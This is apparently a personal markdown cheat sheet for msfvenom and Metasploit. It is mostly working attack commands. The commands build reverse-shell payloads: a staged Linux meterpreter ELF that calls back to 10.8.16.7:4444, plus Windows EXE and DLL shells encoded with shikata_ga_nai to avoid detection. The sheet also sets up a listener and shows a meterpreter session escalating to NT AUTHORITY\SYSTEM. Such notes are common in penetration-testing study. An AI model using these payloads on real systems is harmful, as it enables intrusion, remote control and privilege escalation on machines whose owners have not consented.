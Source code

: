 https://www.hackingarticles.in/msfvenom-cheatsheet-windows-exploitation/
##### Standard usage
`msfvenom -a ARCH -p PAYLOAD -e ENCODER -f FORMAT -o OUTPUT LHOST=IP LPORT=PORT`

##### Important formats
Windows: `dll, exe, exe-service, powershell, msi` (NOTE: make sure to use the correct amount of bits, `64` or `32`, or shells won')
Linux: `elf, bash`
Misc: `python, ruby `

##### Useful encoders
Windows: `x86/shikata_ga_nai, x86/opt_sub`

###### Important payloads
Windows: ``
Linux: 

```
msfvenom -p linux/x64/meterpreter/reverse_tcp -f elf -o shell LHOST=10.8.16.7 LPORT=4444 // Generate a staged ELF meterpreter reverse shell
```
##### Windows
```
msfvenom -a ARCH -p windows/shell_reverse_tcp -e x86/shikata_ga_nai -f EXE -o winshell.exe LHOST=IP LPORT=PORT
msfvenom -p windows/x64/shell_reverse_tcp -f dll -o winshell.dll LHOST=IP LPORT=PORT
```

##### Staged vs stageless
Staged payloads: Small bit of code that connects to the attacker, then downloads an actual payload to the RAM.
Example: `windows/shell/reverse_tcp`

Stageless payloads: Full payload, connects to listener when executed.
Example: `windows/shell_reverse_tcp

##### MSFConsole:
```
set payload METERPRETER_PAYLOAD  // meterpreter/ payloads
set LHOST 0.0.0.0
set LPORT 4444
run -j  // Run in background
```

### Post-exploitation
```
(Meterpreter 5)(C:\Users\luiza) > getuid
Server username: ITWK01\luiza
(Meterpreter 5)(C:\Users\luiza) > getsystem
[-] Already running as SYSTEM
(Meterpreter 5)(C:\Users\luiza) > getuid
Server username: NT AUTHORITY\SYSTEM
(Meterpreter 5)(C:\Users\luiza) > 

```


